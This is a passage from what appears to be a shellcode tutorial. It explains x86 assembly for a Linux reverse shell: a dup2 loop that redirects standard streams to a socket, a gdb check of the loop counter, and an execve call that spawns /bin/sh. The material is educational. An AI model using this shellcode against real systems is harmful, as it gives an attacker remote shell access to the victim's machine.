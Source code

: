 Now we set start-counter and reset `ecx` for loop:             

```nasm
push 0x2         ; set counter to 2
pop  ecx         ; zero to ecx (reset for newfd loop)
```

`ecx` is now ready for the loop, just saving the socket file descriptor to `ebx` as you need it there during the dup2-syscall:

```nasm
xchg ebx, edx    ; save sockfd
```

Then, `dup2` takes 2 arguments:         
```cpp
int dup2(int oldfd, int newfd);
```

Where `oldfd` (ebx) is the client socket file descriptor and `newfd` is used with stdin(0), stdout(1) and stderr(2):
```cpp
for (int i = 0; i < 3; i++) {
    // dup2(sockftd, 0) - stdin
    // dup2(sockfd, 1) - stdout
    // dup2(sockfd, 2) - stderr
    dup2(sockfd, i);
}
```

So, the `sys_dup2` syscall is executed three times in an ecx-based loop:       
```nasm
dup:
  mov  al, 0x3f    ; sys_dup2 = 63 = 0x3f
  int  0x80        ; syscall (exec sys_dup2)
  dec  ecx         ; decrement counter
  jns  dup         ; as long as SF is not set -> jmp to dup
```

`jns` basically jumps to "dup" as long as the signed flag (`SF`) is not set.   

Let's go to debug with `gdb` and check `ecx` value:   
```bash
gdb -q ./rev
```

![gdb ecx -1](/assets/images/14/2021-10-16_13-34.png){:class="img-responsive"}       

As you can see, after third `dec ecx` it contains `0xffffffff` which is equal -1 and the `SF` got set and the shellcode flow continues.     

In result, all three output are redirected :)       

### launch the shell with execve

This part of code are similar to the example from the first part, but again with a small change:
```nasm
; spawn /bin/sh using execve
; int execve(const char *filename, char *const argv[],char *const envp[]);
mov  al, 0x0b    ; syscall: sys_execve = 11 (mov eax, 11)
inc  ecx         ; argv=0
mov  edx, ecx    ; envp=0
push edx         ; terminating NULL
push 0x68732f2f	 ; "hs//"
push 0x6e69622f	 ; "nib/"
mov  ebx, esp    ; save pointer to filename
int  0x80        ; syscall: exec sys_execve
```
